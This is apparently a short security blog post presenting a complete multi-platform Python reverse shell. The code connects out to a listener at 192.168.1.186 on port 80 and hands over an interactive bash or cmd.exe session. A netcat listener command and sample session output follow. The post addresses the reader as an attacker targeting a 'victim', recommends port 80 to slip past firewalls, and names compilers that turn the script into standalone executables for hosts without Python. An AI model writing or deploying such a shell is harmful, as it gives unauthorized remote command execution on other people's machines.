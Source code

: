 # Python Multi-Platform Reverse Shell
30.06.2020 - Author: @dorian9007

This is an easy yet powerfull Reverseshell written in Python. With this Shell you can go through the victims Firewall since the connection is 
going from the inside to the outsite.

![Image](/assets/shell.png)

### Tested on Python 3.6 under Kali Linux

```python
#!/usr/bin/python
import socket, subprocess, os, sys

# build connection
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(("192.168.1.186", 80))

# Mac OSX, Unix, Linux or Win with Cygwin
if sys.platform != "win32":
    os.dup2(soc.fileno(), 0)
    os.dup2(soc.fileno(), 1)
    os.dup2(soc.fileno(), 2)
    # Windows with Cygwin - run cmd.exe
    if sys.platform == "cygwin":
        proc = subprocess.call(["C:\Windows\System32\cmd.exe"])
    # OSX, Unix, Linux - run bash
    else:
        proc = subprocess.call(["/bin/bash", "-i"])
# Windows 
else:
    data = soc.recv(1024)
    cmd = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
    STDOUT, STDERR = cmd.communicate()
    soc.send(STDOUT)
    soc.send(STDERR)
```

<br>
For the victim to be able to properly connect with us, we need to launch a Server-Service like Netcat on our machine:
<br>
<br>

```
root@kali:~# nc -l -p 80
bash: no job control in this shell
bash-3.2$ whoami
dorian
bash-3.2$ id
uid=501(dorian) gid=20(dorian)
groups=20(staff), 501(access_bpf), 12(everyone), 61(localaccounts), 79(_appserverusr), 80(admin), 81(_appserveradm), 98(_lpadmin), 701(com.apple.sharepoint.group.1), 33(_appstore), 100(_lpoperator), 204(_developer), 395(com.apple.access_ftp), 398(com.apple.access_screensharing), 399(com.apple.access_ssh)
```

<br>
In this example -l stands for listen and -p 80 for port 80. At this point it is worth mentioning to use standart ports like 80 for HTTP which usually are not getting blocked by the Firewall.


Of course not everybody has Python already installed. For this case there are Compiler for Python like *py2exe*(Win), *cx_Freeze*(Cross-Plattform), *py2app*(OSX), or *Nuitka*(Cross-Plattform).

<br>
<br>
